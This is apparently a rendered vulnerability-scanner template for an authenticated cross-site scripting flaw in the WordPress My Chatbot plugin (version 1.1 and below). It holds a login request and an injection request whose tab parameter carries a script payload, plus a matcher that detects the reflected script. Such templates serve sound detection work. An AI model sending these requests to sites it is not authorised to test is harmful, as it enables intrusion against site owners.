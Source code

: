 **Type - word**

- part - body
- words
  1. url
  2. xmlrpc
  3. isAdmin
- condition - and

**Payloads**- username

- password

---

# WordPress My Chatbot \<= 1.1 - Cross-Site Scripting

## Description

- WordPress My Chatbot \<= 1.1 is susceptible to cross-site scripting. The plugin does not sanitize or escape its tab parameter in the Settings page before outputting it back in an attribute.
- severity - high
- tags - wordpress,wp-plugin,xss,authenticated,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/options-general.php?page=my-chatbot&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<script>alert(document.domain)\</script>
